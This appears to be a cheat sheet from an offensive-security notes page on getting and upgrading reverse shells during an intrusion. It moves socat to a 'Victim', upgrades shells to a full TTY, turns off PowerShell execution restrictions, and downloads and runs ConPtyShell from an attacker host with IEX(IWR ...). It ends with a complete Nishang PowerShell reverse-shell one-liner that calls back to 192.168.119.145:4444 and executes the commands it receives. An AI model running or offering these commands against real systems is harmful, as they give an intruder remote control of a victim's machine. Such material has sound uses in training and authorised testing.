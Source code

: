 ```bash
```
*socat.bin and socat.exe  can be sent to Victim using file sharing.*
**To determine if you are on an x86 or x64:** 
In windows:
```bash
set programfile
```
In linux:
```
uname -m
```
#### Full TTY Options
[Cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
**NOTE** - *DON'T DO WITH ZSH, CHANGE TO A SH SHELL FIRST*
In reverse shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
```
Whilst shell is in background:
```bash
stty raw -echo
fg
```
In reverse shell:
```bash
reset
xterm-256color
export SHELL=bash
export TERM=xterm-256color
stty rows 38 columns 116
```
**Windows 10 option using ConPtyShell**
[ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (method 3 to upgrade shell)
Open Poweshell and enable script execution:
```bash
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
In Kali, host the script:
```bash
python3 -m http.server 80
```
In second Kali terminal run:
```bash
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
In Windows run:
```bash
IEX(IWR http://192.168.119.145/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows 70 -Cols 96
```
*Note: set the rows and column sizes to the output of `stty size`
**Nishang**
[Nishang](https://github.com/samratashok/nishang/tree/master/Shells)
One Liners:
```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.145',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```